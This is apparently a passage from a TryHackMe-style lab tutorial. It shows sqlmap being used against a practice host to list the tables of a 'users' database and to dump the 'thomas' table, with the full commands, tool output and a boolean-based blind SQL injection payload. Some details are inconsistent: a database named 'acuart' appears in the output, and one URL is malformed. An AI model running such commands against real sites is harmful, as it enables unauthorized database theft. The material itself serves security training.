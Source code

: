 ```bash
[text removed]
```

After running the above command, we got two database names. Select the `users` database and fetch the tables inside of it. We will define the database after the flag `-D` and use the `--tables` flag at the end to extract all the table names.

```bash
user@ubuntu:~$ sqlmap -u http://sqlmaptesting.thm/search/cat=1 -D users --tables
       __H__
 ___ ___[(]_____ ___ ___  {1.2.4#stable}
|_ -| . ["]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[text removed]
[08:50:46] [INFO] resuming back-end DBMS' mysql' 
[08:50:46] [INFO] testing connection to the target URL
[08:50:46] [INFO] heuristics detected web page charset 'ascii'
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 2175=2175
[text removed]
[08:50:46] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx, PHP 5.6.40
back-end DBMS: MySQL >= 5.1
[08:50:46] [INFO] fetching tables for database: 'users'
Database: acuart
[3 tables]
+-----------+
| johnath   |
| alexas    |
| thomas    |     
+-----------+

[text removed]
```

Now that we have all the available table names of the database, let's dump the records present in the `thomas` table. To do so, we will define the database with the `-D` flag, the table with the `-T` flag, and for extracting the records of the table, we will use the `--dump` flag.

```bash
user@ubuntu:~$ sqlmap -u http://sqlmaptesting.thmsearch/cat=1 -D users -T thomas --dump
       __H__
 ___ ___[(]_____ ___ ___  {1.2.4#stable}
|_ -| . [(]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[text removed]
[08:51:48] [INFO] resuming back-end DBMS' mysql' 
[08:51:48] [INFO] testing connection to the target URL
[08:51:49] [INFO] heuristics detected web page charset 'ascii'
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 2175=2175
[text removed]
```